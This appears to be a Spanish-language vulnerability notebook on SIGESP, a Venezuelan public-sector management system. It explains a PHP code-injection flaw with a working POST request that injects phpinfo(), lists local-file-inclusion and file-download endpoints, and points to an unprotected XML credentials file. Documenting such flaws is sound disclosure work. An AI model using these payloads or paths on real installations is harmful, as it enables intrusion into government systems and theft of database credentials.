 # Sigesp exploit notebook

### Que es sigesp
SIGESP es un acrónimo que significa Sistema Integrado de Gestión para Entes del Sector Público. Es un software desarrollado en Venezuela específicamente para optimizar la gestión administrativa de las instituciones públicas a nivel nacional.

## Codigo fuente
Se puede encontrar el codigo fuente base de sigesp en github con lo cual cualquier persona haciendo un escaneo de codigo, puede encontrar multiples vulnerabilidades en el sistema, el cual tiene presencia en multiples webs expuestas a internet

https://github.com/luisbello30/LibreSigesp

## Remote Code Execution 
Se ha detectado que es posible ejecutar comandos remotamente, debido a una vulnerabilidad en el codigo PHP, se trata de una inyeccion de codigo que es posible gracias a dos archivos `shared\class_folder\evaluate_formula.php` y `ins\class_sigesp_formulas.php`.

Empezando con que este servicio esta programado en php OOP. En la clase `evaluate_formula` ocurre una mala sanatizacion de el objeto en la funcion `uf_evaluar` debido a que se hace el return de la variable `$ls_form` la cual en otro archivo es un parametro introducido por el usuario.


![](/assets/articulos/sigesp/uf_evaluar.png)

Gracias a esto, se podria ejecutar codigo PHP creando una peticion POST al archivo `shared\class_folder\evaluate_formula.php`, debido a que ejecuta directamente el cotenido introducido por el usuario en la funcion `uf_evaluar`, que incluso, en php se utiliza el @ para silenciar cualquier mensaje de error que esa expresión pueda generar.

![](/assets/articulos/sigesp/code_inject.png)

```http
POST /demosigesp/ins/class_sigesp_formulas.php HTTP/1.1
Host: www.sigesp.com.ve
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: keep-alive

operacion=VERIFICAR&hiddeducible=&formulavalida=&txtvar=%24LD_MONTO&select3=&txtvalor=11&txtformula=phpinfo()&txtmonto=0%2C01
```


## LFI
Local File Inclusion (LFI) es una vulnerabilidad permite a un atacante incluir archivos locales en el servidor a través de la manipulación de variables de entrada que referencian rutas de archivo. Esta vulnerabilidad puede permitir a un atacante leer archivos sensibles, ejecutar código arbitrario o realizar otros ataques.

Existen varios archivos vulnerables que directamente muestran todos los archivos y carpetas del servidor, que son los siguientes:

`apr/sigesp_apr_cat_directorio.php?ruta=/`<br>
`cxp/sigesp_cxp_cat_directorio.php?ruta=/ `<br>
`scb/sigesp_scb_cat_directorioxml.php?ruta=/`<br>

Y complementando los anteriores, el archivo vulnerable que permite la descarga de archivos es el siguiente

`cxp/sigesp_cxp_cat_descarga.php?file=`

![](/assets/articulos/sigesp/LFI.png)

## Exposicion de credenciales en .xml
En el sistema SIGESP, las contraseñas de acceso a las bases de datos se almacenan en archivos de configuración con formato .xml. Estos archivos contienen información sensible sin encriptación o protección adecuada, lo que permite a un atacante que obtenga acceso al servidor leer las credenciales y, potencialmente, acceder a la base de datos y manipular información sensible.

`base/xml/sigesp_xml_configuracion.xml`

![](/assets/articulos/sigesp/xml.png)
